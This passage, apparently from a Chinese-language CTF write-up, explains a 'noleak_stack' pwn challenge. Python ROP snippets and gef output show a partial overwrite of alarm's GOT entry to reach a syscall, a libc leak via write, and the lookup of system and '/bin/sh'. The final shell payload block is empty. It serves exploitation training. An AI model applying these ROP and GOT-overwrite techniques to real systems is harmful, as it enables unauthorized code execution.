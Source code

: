 ![](https://github.com/1094093288/IMG/blob/master/Pwn/noleak_stack/assets/8.png)

## 修改write相关寄存器，触发syscall
再利用ROP为write函数提供参数，参数为alarm got表地址，用来泄露alarm地址，随后让其返回到alarm plt调用alarm触发syscall实现输出alarm地址。这里有个隐含的点，没有控制rax的ROP，syscall的系统调用号怎么给eax的？这里主要是利用read的返回值，读入几个字符就返回个数几到eax，所以这里读入一字节后eax寄存器就是1，write函数的系统调用号刚好是1，实现了write的syscall
```python
    buff += p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(alarm_plt) + p64(main_addr)
    sn(buff)
    sleep(1)
    sn('\x19')
    sleep(1)
```
查看alarm地址，可以看到syscall命令最后一字节是0x19，所以发送0x19将alarm最后一字节改为0x19:
```bash
gef➤  x/16gx 0x601018
0x601018 <alarm@got.plt>:       0x00007f0f80c6ff10      0x00007f0f80c9b130
0x601028:       0x0000000000000000      0x0000000000000000
0x601038:       0x0000000000000000      0x0000000000000000

gef➤  disassemble 0x00007f0f80c6ff10
Dump of assembler code for function alarm:
    0x00007f0f80c6ff10 <+0>:     endbr64 
    0x00007f0f80c6ff14 <+4>:     mov    eax,0x25
    0x00007f0f80c6ff19 <+9>:     syscall      <----------
    0x00007f0f80c6ff1b <+11>:    cmp    rax,0xfffffffffffff001
    0x00007f0f80c6ff21 <+17>:    jae    0x7f0f80c6ff24 <alarm+20>

gef➤  x/16gx 0x601018
0x601018 <alarm@got.plt>:       0x00007f0f80c6ff19      0x00007f0f80c9b130
0x601028:       0x0000000000000000      0x0000000000000000
0x601038:       0x0000000000000000      0x0000000000000000
```
可以看到已经改成功，然后开始返回到alarm plt泄露alarm地址，之后返回main函数继续利用获取shell
## 获取shell
拿到alarm地址后可以通过偏移计算libc地址，由于我们更改了最后以字节从0x10->0x19,所以最后要减去9
```python 
    libc.address = u64(rv(8)) - 9 - libc.symbols['alarm'] # 20.04
    lg("Libc", libc.address)
    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
```
再利用溢出覆盖返回地址获取shell
```python
```